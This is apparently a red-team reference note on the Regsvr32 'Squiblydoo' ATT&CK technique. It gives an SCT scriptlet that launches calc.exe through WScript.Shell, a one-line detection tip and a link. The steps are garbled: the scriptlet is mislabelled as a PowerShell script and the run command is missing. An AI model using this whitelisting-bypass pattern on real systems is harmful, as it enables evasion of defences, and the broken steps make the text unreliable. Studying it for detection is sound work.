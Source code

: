 # [Regsvr32](https://attack.mitre.org/techniques/T1218/010/)

## Exploit syntax:
1. Create a powershell script and save it to /tmp/mr..txt
``
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
2. In posh run:
    ```

## Detection Technique:
* Monitor regsvr32.exe for malicious code execution.

## Resource
* https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo